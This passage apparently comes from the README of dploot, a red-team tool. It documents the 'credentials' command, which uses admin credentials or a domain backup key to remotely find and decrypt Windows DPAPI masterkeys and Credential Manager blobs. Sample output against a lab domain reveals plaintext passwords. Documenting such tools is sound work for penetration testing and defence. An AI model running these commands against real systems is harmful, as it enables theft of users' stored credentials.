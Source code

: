 ***Tips***: *With the `outputfile` flag, dploot masterkeys will append looted masterkeys in a specified file. It is not a problem to store every masterkeys in the same file, because a DPAPI BLOB store the GUID of the masterkey that will be needed in order to decrypt it.*

#### credentials

The **credentials** command will search for users Credential files and decrypt them with `-mkfile FILE` of one or more {GUID}:SHA1, or with `-passwords FILE` combo of user:password, `-nthashes` combo of user:nthash or a `-pvk PVKFILE` to first decrypt masterkeys.

With `mkfile`:

```text
$ dploot credentials waza.local/Administrator:'Password!123'@192.168.57.5 -mkfile waza.mkf
[*] Connected to 192.168.57.5 as waza.local\Administrator (admin)
[*] Found Credential Manager blob: \\192.168.57.5\C$\Users\jfile\AppData\Roaming\Microsoft\Credentials\FF6A8B05D0BD996DD3A9D76D69244D80
[CREDENTIAL]
LastWritten : 2022-04-12 16:55:44
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=test
Description :
Unknown     :
Username    : test
Unknown     : Password#{123}

[*] Found Credential Manager blob: \\192.168.57.5\C$\Users\jsmith\AppData\Local\Microsoft\Credentials\B7940EED205293A0414498F8F866E091
[CREDENTIAL]
LastWritten : 2022-04-27 19:23:02
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000002 (CRED_PERSIST_LOCAL_MACHINE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=TERMSRV/srv01.waza.local
Description :
Unknown     :
Username    : DESKTOP-I60R2L6\Administrator
Unknown     : Password!123
```

With `pvk`:

```text
$ dploot credentials waza.local/Administrator:'Password!123'@192.168.57.5 -pvk key.pvk
[*] Connected to 192.168.57.5 as waza.local\Administrator (admin)
[*] Found MasterKey: \\192.168.57.5\C$\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-500\927478ee-ab0e-4958-9eed-1d99f4dd851f
[*] Found MasterKey: \\192.168.57.5\C$\Users\jfile\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-1106\7eb68c18-1533-4448-8328-dd4e8439059a
[*] Found MasterKey: \\192.168.57.5\C$\Users\jfile\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-1106\dc22a574-7721-4d0e-8fbe-b1d4be93a73e
[*] Found MasterKey: \\192.168.57.5\C$\Users\jsmith\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-1104\34fb7a8f-13b9-45f7-9588-9be6f77513d4
[*] Found MasterKey: \\192.168.57.5\C$\Users\pigeon\AppData\Roaming\Microsoft\Protect\S-1-5-21-2004071915-2714639843-996485644-1001\bc6677c5-6403-49d1-a06b-6f03a5d13dc2
[*] Found MasterKey: \\192.168.57.5\C$\Users\scroche\AppData\Roaming\Microsoft\Protect\S-1-5-21-2239934126-3187342257-2761709825-1105\ab0397f3-c1dd-4ceb-a4ee-cdb454e2a2a8
[*] Found Credential Manager blob: \\192.168.57.5\C$\Users\jfile\AppData\Roaming\Microsoft\Credentials\FF6A8B05D0BD996DD3A9D76D69244D80
[CREDENTIAL]
LastWritten : 2022-04-12 16:55:44
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
```